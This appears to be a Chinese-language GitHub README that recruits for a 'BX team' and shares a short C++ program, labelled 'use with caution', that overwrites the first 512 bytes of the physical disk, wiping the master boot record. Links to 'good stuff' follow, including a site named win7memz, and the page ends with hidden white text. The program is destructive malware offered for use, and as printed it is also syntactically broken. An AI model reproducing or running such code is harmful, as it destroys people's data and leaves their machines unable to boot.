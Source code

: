 
# _BX团队正在招新！_
有意者联系 QQ: 341723147

## 不是很好的代码，慎用！
```cpp
#include <stdio.h>
#include <windows.h>
#include <tchar.h>
int main()
{ 
	FILE * fd=fopen("\\\\.\\PHYSICALDRIVE0","rb+")
	char buffer[512]={0};
	fseek(fd,0,SEEK_SET); 
	fwrite(buffer,512,1,fd); /
	fclose(fd); 
	return 0;
}
```
## 送你们一点福利
### [好东西1](https://win7memz.github.io)
### [好东西2](https://space.bilibili.com/649846967)
### [好东西3](https://www.luogu.com.cn/paste/m5l62h64)
###### $\textsf{\color{white}pingjun AK CSP!}$
